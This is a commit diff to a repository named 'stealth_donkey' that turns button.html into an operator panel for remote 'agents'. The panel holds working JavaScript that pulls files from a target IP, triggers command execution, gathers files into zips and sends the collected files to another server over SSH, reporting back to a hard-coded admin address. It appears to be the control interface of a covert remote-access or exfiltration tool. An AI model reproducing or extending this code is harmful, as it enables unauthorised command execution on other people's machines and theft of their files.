

Before and after one commit to monkeyyey/stealth_donkey, a website: page public/html/button.html in a window 1280 px wide. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update button.html

```diff
--- a/public/html/button.html
+++ b/public/html/button.html
@@ -1,5 +1,8 @@
 <html>
    <head>
+        <script>
+            const adminurl = "http://192.168.1.81:8080"
+        </script>
       <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.6.0/jquery.min.js"></script>
       <script src="https://unpkg.com/axios/dist/axios.min.js"></script>
       <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.3.1/css/bootstrap.min.css" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous">
@@ -35,8 +38,61 @@
                 </ul>
             </div>
         </nav>
-      <div class="fp-3">
-        <h2><u>BUTTON CONTROL FOR *(DROPDOWN LIST OF IP)*</u></h2>
-      </div>
+        <div class="p-3">
+            <h2>Target Agent IP:</h2>
+            <p><input type = "text" name = "output" id="agent_ip"/></p>
+        </div>
+        <div class="p-3">
+            <h2><u>File retrieval</u></h2>
+            <button onclick="agent_action('file_retrieval')">File retrieval</button>
+         </div>
+        <div class="p-3">
+            <h2><u>Command Execution + Save to file</u></h2>
+            <button onclick="agent_action('command')">Command execute</button>
+         </div>
+         <div class="p-3">
+            <h2 class=""><u>Copy specific files to a folder</u></h2>
+            <button onclick="agent_action('file_collection')">Copycopycopy</button>
+         </div>
+         <div class="p-3">
+            <h2 class=""><u>Send Collected files to another Server via SSH</u></h2>
+            <button onclick="agent_action('ssh_send')">ssshhhhhhh</button>
+         </div>
+        <script>
+            function agent_action(api){
+                event.preventDefault()
+                const agent_ip = $('#agent_ip').val()
+                if (api == "file_retrieval"){
+                    axios.get(`http://${agent_ip}:5000/${api}`).then((response) => {
+                        file_location = response.data.file_location
+                        filenumber = response.data.filenumber
+                        if (filenumber > 1){
+                            axios.post(`${adminurl}/api/exec`, {file_location : file_location, zip : "Yes"})
+                        }
+                        else{
+                            axios.post(`${adminurl}/api/exec`, {file_location : file_location, zip : "No"})
+                        }
+                    })
+                }
+                else if(api == "file_collection"){
+                    axios({
+                        url: `http://${agent_ip}:5000/${api}`, //your url
+                        method: 'GET',
+                        responseType:'application/zip',
+                        responseType: 'blob', // important
+                    }).then((response) => {
+                        let blob = window.URL.createObjectURL(new Blob([response.data], { type: 'application/zip' }))
+                        let a = document.createElement("a");
+                        a.href = blob;
+                        a.setAttribute('download', 'retrieval.zip');
+                        document.body.appendChild(a);
+                        a.click();
+                    });
+                }
+                else{
+                    axios.get(`http://${agent_ip}:5000/${api}`)
+                }
+            }
+        </script>
    </body>
 </html>
```
